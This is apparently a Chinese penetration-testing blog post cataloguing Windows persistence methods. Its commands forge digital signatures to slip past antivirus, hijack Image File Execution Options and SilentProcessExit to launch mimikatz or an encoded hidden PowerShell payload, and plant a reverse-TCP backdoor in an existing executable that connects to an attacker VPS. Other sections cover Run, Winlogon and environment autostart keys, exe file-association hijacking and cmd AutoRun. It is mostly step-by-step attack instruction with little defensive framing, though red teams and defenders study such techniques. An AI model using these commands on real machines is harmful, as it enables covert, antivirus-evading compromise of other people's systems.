 ```yaml
---
layout:     post
title:      Windows 权限维持几种方法
subtitle:   简单整理了部分方法
date:       2021-03-02
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/090412-1557363852af44.jpg
catalog: true
tags:
    - Windows
    - 域渗透
    - 渗透测试
---
```


### 数字签名伪造

https://github.com/secretsquirrel/SigThief

给test.exe伪造数字签名，可以绕过少数杀毒程序



![image-20210228090612992](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210228090612992.png)



![image-20210228090632864](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210228090632864.png)



目标签名exe程序 需要与目标机器位数一致

```shell
python3 sigthief.py -i firefox.exe -t test.exe -o test1.exe
```

![image-20210228090803526](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210228090803526.png)

![image-20210228090701693](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210228090701693.png)



### 映像劫持

修改注册表（管理员权限）

```
\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\  
```



添加想要劫持的exe的名称，再添加字符串值`Debugger` 值为`另一个exe的路径`

![2C1AD4CBDDD62D08BCEE8EA3A8B23D9F](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/2C1AD4CBDDD62D08BCEE8EA3A8B23D9F.png)



劫持后效果(运行getpass 实则执行mimikatz)



也可使用cmd 修改注册表（需要管理员权限）

```cmd
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\GetPass.exe" /v Debugger /t REG_SZ /d "exe路径"
```

验证

```cmd
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\GetPass.exe"
```



<img src="https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/QQ20210301-201559-HD.gif">





另一种

**程序结束后 自动执行**

cmd 下执行

A程序为正常运行的，B为A退出后运行

```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\A.exe" /v GlobalFlag /t REG_DWORD /d 512

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\A.exe" /v ReportingMode /t REG_DWORD /d 1

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\A.exe" /v MonitorProcess /t REG_SZ /d "B.exe路径"
```



![image-20210228165027832](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210228165027832.png)



效果如下

<img src="https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/QQ20210228-165413.gif">



cs

生成payload

![image-20210228211005608](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210228211005608.png)



![image-20210228211034924](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210228211034924.png)



上面把`B.exe路径`改为 payload即可

```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\A.exe" /v MonitorProcess /t REG_SZ
/d "powershell.exe -nop -w hidden -encodedcommandJABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwA........"
```

启动A.exe 然后退出

![image-20210228211300478](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210228211300478.png)



### 隐藏后门

项目地址

https://github.com/secretsquirrel/the-backdoor-factory



将后门写入已存在的exe程序



判断目标exe是否支持写入木马

```bash
 python backdoor.py -f 目标exe -S
```

![image-20210301160011364](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210301160011364.png)



查看可用payload

```
 python backdoor.py -f 目标exe show
```



![image-20210301160222893](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210301160222893.png)



写入反向链接的🐎

```bash
python backdoor.py -f 目标.exe -s iat_reverse_tcp_stager_threaded  -P 8888 -H vps的ip地址
```



选择可写入的块序号

![image-20210301160550627](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210301160550627.png)



![image-20210301160647376](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210301160647376.png)



生的木马在 backdoored 目录下

Kali msf监听 程序执行后开始反弹 ，程序关闭之后 反弹回来的shell也会随之关闭

<img src="https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/2.gif">



在线查杀 只有10个报毒

![image-20210301162143748](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210301162143748.png)



### 自启动

```
HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows
```

添加load字符串 ，文件路径用短文件路径(或者添加run 字符串)

![image-20210301171831947](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210301171831947.png)



```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

往`userinit` 追加数据 用逗号分隔可以执行多程序

![image-20210301172446498](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210301172446498.png)



```
\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce

\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
\HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Run
\HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\RunOnce
```

runonce 只执行一次 注册表信息自动消失

![image-20210301184422159](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210301184422159.png)



```
\HKEY_CURRENT_USER\Environment
```

添加`UserInitMprLogonScript`字符串

![image-20210301185348488](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210301185348488.png)



### 修改文件关联注册表

```
exe关联  HKEY_CLASSES_ROOT\exefile\shell\open\command
```

将默认`"%1" %*` 改为 	`恶意exe "%1" %*`

修改之后打开任意exe 都会启动恶意exe

![image-20210301213011691](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210301213011691.png)



<img src="https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/QQ20210301-213346-HD.gif">



txt关联文件 

```
HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

一般情况为

```
HKEY_CLASSES_ROOT\后缀+file\shell\open\command
```



### 跟随cmd自启动

指定cmd启动时加载的vbs脚本

```
\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor
```

添加字符串 键`AutoRun` 

![image-20210302082559420](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210302082559420.png)

<img src="https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/QQ20210302-082710-HD-3.gif">

